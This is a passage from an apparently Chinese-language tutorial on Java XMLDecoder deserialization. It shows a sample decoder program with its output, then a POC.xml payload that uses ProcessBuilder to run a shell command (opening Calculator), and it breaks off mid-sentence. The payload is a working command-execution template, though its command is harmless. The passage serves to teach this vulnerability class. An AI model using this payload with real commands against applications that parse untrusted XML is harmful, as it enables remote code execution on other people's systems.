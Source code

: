 示例代码

```
package DawnT0wn;

import java.beans.XMLDecoder;
import java.io.*;

public class XmlDecoder {
    public static void main(String[] args) throws FileNotFoundException {
        XMLDecoder d = new XMLDecoder(new BufferedInputStream(new FileInputStream("result.xml")));
        Object result = d.readObject();
        System.out.println(result);
        d.close();
    }
}
```

可以看到通过XMLDecoder获取序列化的xml文档，打印出来了JButton

```
javax.swing.JButton[,0,0,0x0,invalid,alignmentX=0.0,alignmentY=0.5,border=javax.swing.plaf.BorderUIResource$CompoundBorderUIResource@2e817b38,flags=296,maximumSize=,minimumSize=,preferredSize=,defaultIcon=,disabledIcon=,disabledSelectedIcon=,margin=javax.swing.plaf.InsetsUIResource[top=2,left=14,bottom=2,right=14],paintBorder=true,paintFocus=true,pressedIcon=,rolloverEnabled=true,rolloverIcon=,rolloverSelectedIcon=,selectedIcon=,text=Hello,xml,defaultCapable=true]
```

其实这里有一个小问题，就是在生成和获取xml文档的时候，是通过`writeObject/readObject`获取的，但是我看到这个类并没有实现serializable接口

可能是他的序列化格式和之前我们生成的序列化不太一样，他这里的序列化格式其实就是这个xml文档

# XMLDecoder反序列化漏洞

通过上面的标签可以写一个POC.xml

```
<java version="1.4.0" class="java.beans.XMLDecoder">
    <void class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="3">
            <void index="0">
                <string>/bin/bash</string>
            </void>
            <void index="1">
                <string>-c</string>
            </void>
            <void index="2">
                <string>open -a Calculator</string>
            </void>
        </array>
        <void method="start"/></void>
</java>
```

这里相当于执行
